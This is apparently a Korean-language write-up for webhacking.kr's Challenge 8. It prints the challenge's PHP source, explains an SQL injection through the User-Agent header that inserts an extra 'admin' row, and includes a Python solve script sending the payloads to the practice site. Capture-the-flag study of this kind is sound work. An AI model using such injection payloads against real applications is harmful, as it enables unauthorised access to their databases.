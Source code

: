 # Write-Up
## 취약점 확인
index.phps 를 읽어보면 다음과 같은 소스가 있습니다.

```
<html>
<head>
<title>Challenge 8</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
</style>
</head>
<body>
<br><br>
<center>USER-AGENT

<?

$agent=getenv("HTTP_USER_AGENT");
$ip=$_SERVER[REMOTE_ADDR];

$agent=trim($agent);

$agent=str_replace(".","_",$agent);
$agent=str_replace("/","_",$agent);

$pat="/\/|\*|union|char|ascii|select|out|infor|schema|columns|sub|-|\+|\||!|update|del|drop|from|where|order|by|asc|desc|lv|board|\([0-9]|sys|pass|\.|like|and|\'\'|sub/";

$agent=strtolower($agent);

if(preg_match($pat,$agent)) exit("Access Denied!");

$_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);
$_SERVER[HTTP_USER_AGENT]=str_replace("\"","",$_SERVER[HTTP_USER_AGENT]);

$count_ck=@mysql_fetch_array(mysql_query("select count(id) from lv0"));
if($count_ck[0]>=70) { @mysql_query("delete from lv0"); }


$q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");

$ck=@mysql_fetch_array($q);

if($ck)
{ 
echo("hi <b>$ck[0]</b><p>");
if($ck[0]=="admin")

{
@solve();
@mysql_query("delete from lv0");
}


}

if(!$ck)
{
$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
echo("<br><br>done!  ($count_ck[0]/70)");
}


?>

<!--

index.phps

-->

</body>
</html>
```

`$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
echo("<br><br>done!  ($count_ck[0]/70)");`

위의 코드에서 취약점이 발생합니다.


User-Agent 값으로 쿼리문을 전송을 하니, User-Agent 를 이용하여서 인젝션을 해주면 될 것 같습니다.

## 풀이
```
$q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");

$ck=@mysql_fetch_array($q);

if($ck)
{ 
echo("hi <b>$ck[0]</b><p>");
if($ck[0]=="admin")

{
@solve();
@mysql_query("delete from lv0");
}
```


여기서 위에 코드를 보면 id 가 admin 이여야 조건이 참이되기 때문에 이에 유의해서 쿼리문을 짜면 다음과 같이 나옵니다.


1. `test', '123', 'admin'), ('test2`
2. `test`


1번 쿼리는 admin 을 체크하는 조건문에서 맞지 않으므로 건너뛰고
insert into 문을 실행하여 다음과 같이 쿼리가 들어가게 됩니다.


`insert into lv0(agent,ip,id) values('test','123','admin'), ('test2', 'ip', 'guest')`


그러면 위와 같은 쿼리문이 실행되어
각 agent, ip, id 컬럼에는 (test, 123, admin) 와 (test2, ip, guest) 2개가 들어가게 됩니다.

그리고 다시 user-agent 에 2번 쿼리를 넣어서 보내면 다음과 같이 쿼리가 실행됩니다.

`select id from lv0 where agent='test'`

그럼 test의 id값이 admin 이였으니 그 값을 리턴하게 되고 참이되어
문제가 해결됩니다.


## Solve.py Source Code
```
import requests

url = "http://webhacking.kr/challenge/web/web-08/index.php"

headers = {
	"user-agent":"test', '123', 'admin'), ('test2",
    "cookie":"PHPSESSID=1f119738c8025cf9fd0d13a3c8436b3c"
}

req = requests.get(url, headers=headers)
print req.text

headers = {
	"user-agent":"test",
    "cookie":"PHPSESSID=1f119738c8025cf9fd0d13a3c8436b3c"
}

req = requests.get(url, headers=headers)
print req.text
```
